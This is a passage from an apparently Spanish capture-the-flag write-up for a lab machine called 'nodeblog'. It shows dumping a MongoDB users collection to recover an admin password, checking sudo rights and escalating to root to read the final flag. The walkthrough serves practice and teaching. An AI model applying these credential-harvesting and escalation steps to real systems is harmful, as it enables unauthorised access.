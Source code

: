 Hemos encontrado dos colecciones, y la última de ellas es la de `users`, lo cual es de interés, ya que podría contener credenciales. Procedemos a volcar su contenido para obtener más información.

```bash
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

La contraseña "`IppsecSaysPleaseSubscribe`" ha sido revelada. Intentamos utilizarla para nuestra cuenta de usuario y comprobamos los privilegios sudo del usuario "`admin`".

```bash
admin@nodeblog:~$ sudo -l 
[sudo] password for admin:
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

Al utilizar la contraseña, nos percatamos de que tenemos la capacidad de ejecutar cada uno de los comandos en la máquina con privilegios de `root`. Por consiguiente, procedemos a cambiar al usuario `root`.

```bash
admin@nodeblog:~$ sudo su
root@nodeblog:/home/admin# whoami
root
```

Finalmente, accedemos al directorio `/root/` y conseguimos la última flag de la máquina.

```bash
root@nodeblog:/home/admin# cd /root/
root@nodeblog:~# cat root.txt 
f17ff8d2522*********************
```

!Happy Hacking¡
